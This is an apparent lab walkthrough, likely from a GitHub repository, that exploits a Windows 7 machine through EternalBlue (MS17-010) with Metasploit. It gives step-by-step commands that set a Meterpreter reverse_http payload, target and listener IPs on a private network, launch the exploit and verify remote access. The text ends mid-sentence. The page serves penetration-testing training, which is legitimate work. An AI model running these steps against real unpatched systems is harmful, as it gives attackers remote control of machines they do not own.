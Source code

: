 # 💥 Exploitation with Metasploit: EternalBlue

Now that we’ve completed our **reconnaissance** and **vulnerability assessment**, we’re ready to exploit the Windows 7 system using the **EternalBlue** vulnerability (`MS17-010`).

---

## 🔍 Step 1: Search for the EternalBlue Exploit
Use the `search` command to locate the correct exploit module:

```bash
msf5 > search type:exploit eternalblue
```

Metasploit will return a list of exploit modules related to EternalBlue. The one we want is:

```
exploit/windows/smb/ms17_010_eternalblue
```

---

## 🚀 Step 2: Load and Review the Exploit

```bash
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > info
```

> ℹ️ This module requires **RHOSTS** to be set. Other options will default appropriately.

---

## 🎯 Step 3: Choose a Payload

We need a payload to maintain access/control after exploitation. Let's see compatible payloads:

```bash
msf5 > show payloads
```

From the list of 45 compatible payloads, we’ll use:

```
windows/x64/meterpreter/reverse_http
```

### Set the Payload:
```bash
msf5 > set PAYLOAD windows/x64/meterpreter/reverse_http
```

---

## ⚙️ Step 4: Configure Exploit Parameters

Set the target IP address (Windows 7 system) and your local Kali IP address:

```bash
msf5 > set RHOSTS 192.168.0.114
msf5 > set LHOST 192.168.0.173
```

> Use `ipconfig` on Windows or `ifconfig/ip a` on Kali to find your IP addresses.

---

## 🎯 Step 5: Launch the Exploit

```bash
msf5 > exploit
```

If successful, you’ll get a `meterpreter` prompt like this:
```
meterpreter >
```

This means you now have remote access to the target Windows 7 system.

---

## 🧠 Step 6: Verify Access

Check system information to confirm you're inside the target machine:

```bash
meterpreter > sysinfo
```

Expected output:
```
Computer        : WIN-XXXXXXX
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
```

---

## 🧠 Summary

| Step         | Command Example                                              |
|--------------|--------------------------------------------------------------|
| Search       | `search type:exploit eternalblue`                            |
| Use          | `use exploit/windows/smb/ms17_010_eternalblue`              |
| Payload      | `set PAYLOAD windows/x64/meterpreter/reverse_http`          |
| Target IP    | `set RHOSTS 192.168.0.114`                                   |
| Local IP     | `set LHOST 192.168.0.173`                                    |
| Exploit      | `exploit`                                                   |
| Verify       | `sysinfo`                                                   |

---

> ✅ Congratulations! You've exploited a vulnerable Windows 7 system using the EternalBlue module and
